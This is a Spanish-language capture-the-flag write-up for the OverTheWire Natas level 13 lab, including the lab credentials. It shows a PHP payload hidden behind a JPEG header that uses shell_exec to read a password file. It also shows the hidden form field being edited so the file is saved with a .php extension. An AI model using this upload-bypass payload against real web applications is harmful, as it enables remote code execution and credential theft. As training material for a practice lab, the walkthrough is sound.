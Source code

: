 ```yaml
---
title: Natas-13
published: true
---
```


```
Url del reto: http://natas13.natas.labs.overthewire.org/index.php
login:natas13
 pass:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```

En este reto, comprueba si el fichero que se sube es una imagen.jpg. Para ello utiliza la función exif_imagetype() , dicha función comprueba si la cabecera del fichero es una imagen. 
Para saltarnos este obstáculo, podemos modificar el fichero fuente de una imagen, dejar la primera línea y le insertamos código php de la siguiente manera:

```
ÿØÿà JFIF  ` `  ÿÛ C
<?php $output = shell_exec('cat /etc/natas_webpass/natas14'); var_dump($output); ?>
```

Si guardamos la modificación y subimos la imagen, no ejecutará el código php ya que el código fuente lo guardará en un formato jpg.
Para poder subir el fichero en un formato php, modificamos el código fuente html en el campo value así:

```html
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="tzp8ecx2ff.jpg" /> <!-- modificamos la extensión a tzp8ecx2ff.php -->
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

```

La salida al subir "la imagen"

```html
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

The file <a href="upload/9ro0m0gtb6.php">upload/9ro0m0gtb6.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Como podemos ver, ha subido "la imagen" en formato php, si hacemos clic en el enlace nos ejecutará el código php que hemos insertado en el fichero que hemos subido.

```
����JFIF``��C   string(33) "Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 " 
```


```    
natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
```

[Volver al archivo](archive)
